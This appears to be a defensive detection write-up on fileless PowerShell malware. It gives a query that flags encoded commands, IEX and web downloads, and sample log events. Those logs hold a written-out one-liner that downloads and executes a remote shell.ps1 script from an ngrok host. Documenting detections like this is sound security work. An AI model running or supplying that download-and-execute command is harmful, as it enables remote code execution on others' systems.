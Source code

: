 # Fileless Malware with PowerShell

## Scenario Description

  Fileless attacks are the type of attacks that avoid writing files to the disk. They might have malicious code that operates entirely in memory, leveraging legitimate system tools and processes to execute their payloads. It doesn’t mean Fileless attacks don’t write files at all. They might start from a malicious document with a macro or a .LNK file (desktop shortcuts), but the remainder of the attack becomes fileless.Instead of dropping more executable files or scripts onto the target system, attackers inject malicious code directly into running processes or use built-in Windows tools like PowerShell, Windows Management Instrumentation (WMI), LOLBAS/LOLBINS, and registry keys to carry out their objectives [more](https://medium.com/maltrak/fileless-attacks-at-a-glance-weaponizing-powershell-microsoft-legitimate-apps-39d973096f6c).
## Objective

  To detect **potentially malicious PowerShell activity** by process arguments and command line
## Detection Logic / Query
```sql

  process.name: "powershell.exe" and 
  process.args:
    "*-EncodedCommand*" or 
    "*IEX*" or 
    "*Invoke-WebRequest*" or 
    "*Net.WebClient*" or 
    "*FromBase64String*" or
    "*DownloadString*"
```
## Sample Alert Screenshot

![Fileless Malware with PowerShell ](../../screenshots/fileless.png)
## Logs or Sample Event

```powershell
"@timestamp","process.name","process.command_line","process.args","event.code","winlog.event_id"
"Jun 4, 2025 @ 21:07:43.327","powershell.exe","""C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"" -command ""iex(New-Object Net.WebClient).DownloadString(‘ https://8edc-2401-4900-9156-fb4c-31f2-a653-5640-e4c9.ngrok-free.app/shell.ps1’)""","C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe, -command, iex(New-Object Net.WebClient).DownloadString(‘ https://8edc-2401-4900-9156-fb4c-31f2-a653-5640-e4c9.ngrok-free.app/shell.ps1’)",behavior,"-"
"Jun 4, 2025 @ 21:07:43.299","powershell.exe","""C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"" -command ""iex(New-Object Net.WebClient).DownloadString(‘ https://8edc-2401-4900-9156-fb4c-31f2-a653-5640-e4c9.ngrok-free.app/shell.ps1’)""","C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe, -command, iex(New-Object Net.WebClient).DownloadString(‘ https://8edc-2401-4900-9156-fb4c-31f2-a653-5640-e4c9.ngrok-free.app/shell.ps1’)","-","-"
```
## Detection Status
